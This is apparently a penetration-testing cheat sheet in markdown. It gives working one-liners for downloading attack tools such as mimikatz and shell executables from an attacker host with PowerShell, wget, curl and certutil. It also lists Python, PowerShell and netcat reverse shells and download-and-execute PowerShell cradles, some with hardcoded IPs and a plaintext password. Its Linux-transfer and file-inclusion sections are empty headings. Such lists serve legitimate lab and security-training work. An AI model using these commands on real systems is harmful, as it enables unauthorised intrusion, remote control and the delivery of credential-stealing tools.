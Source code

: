 #### Windows File transfer
- Powershell One-liner
```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<ATTACKIP>/mimikatz.exe', 'C:\TEMP\mimikatz.exe')
```
- wget.exe
```
wget.exe http://<ATTACKIP>:1234/ --recursive --no-parent
wget.exe -O shell.exe http://<ATTACKIP>:1234/
```
- curl.exe
```
curl.exe -O http://<ATTACKIP>:1234
```
- certutil.exe
```
certutil.exe -urlcache -f http://<IP>:<PORT>/<FILENAME> <LOCAL FILENAME>
certutil.exe -urlcache -split -f http://<IP>:<PORT>/<FILENAME>
```
#### Linux File Transfer
#### File Inclusion
- LFI
- RFI
#### Reverse Shells
- Pyhon reverse shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKIP>",<AttackLISTENER>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

# Python TTY shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
- SMB server reverse shell
```
\\\\10.10.14.16\\SMB\\nc.exe <IP> <PORT> -e cmd.exe
```
- Powershell reverse shells
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.171',5555);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()" # non-interactive socket connection
```
```
start-process powershell -argumentlist ""IEX(New-Object Net.WebClient).downloadString('http://<IP>/Invoke-PowerShellTcp.ps1')"" -credential $cred
$password = ConvertTo-SecureString 'aliceishere' -ASPLainText -Force 
{$cred = New-Object System.Management.Automation.PSCredential('Alice',$password)}
```
```
powershell -command "((new-object System.Net.WebClient).DownloadFile('http://10.10.14.16:1234/whoami.exe', '%TEMP%\whoami.exe'))"; "c:\windows\system32\cmd.exe /c %TEMP%\whoami.exe" # Download and execute reverse shell
```
```
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://10.11.0.253/Invoke-PowerShellTcp.ps1')|iex" # Download and execute interactive reverse shell
```
```
```